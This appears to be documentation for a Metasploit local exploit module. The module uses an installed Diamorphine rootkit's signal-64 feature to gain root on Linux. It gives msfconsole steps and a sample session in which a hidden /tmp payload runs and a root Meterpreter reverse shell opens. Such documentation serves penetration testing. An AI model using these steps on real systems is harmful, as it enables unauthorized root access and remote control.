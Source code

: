 ## Vulnerable Application

  [Diamorphine](https://github.com/m0nad/Diamorphine) is a Linux Kernel Module (LKM) rootkit.

  This module uses Diamorphine rootkit's privesc feature using signal
  64 to elevate the privileges of arbitrary processes to UID 0 (root).

  This module has been tested successfully with Diamorphine from `master`
  branch (2019-10-04) on Linux Mint 19 kernel 4.15.0-20-generic (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/diamorphine_rootkit_signal_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SIGNAL

  Diamorphine elevate signal. (default: `64`)


## Scenarios

### Linux Mint 19 (x64)

  ```
  msf > use exploit/linux/local/diamorphine_rootkit_signal_priv_esc
  msf exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > check

  [*] Executing id ...
  uid=0(root) gid=0(root) groups=0(root),1001(test)
  [+] The target is vulnerable. Diamorphine is installed and configured to handle signal '64'.
  msf exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Executing id ...
  uid=0(root) gid=0(root) groups=0(root),1001(test)
  [*] Writing '/tmp/.hwL5UoDL6mfZ' (207 bytes) ...
  [*] Executing /tmp/.hwL5UoDL6mfZ & echo  ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.228
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.228:47694) at 2020-02-16 09:28:59 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.228
  OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

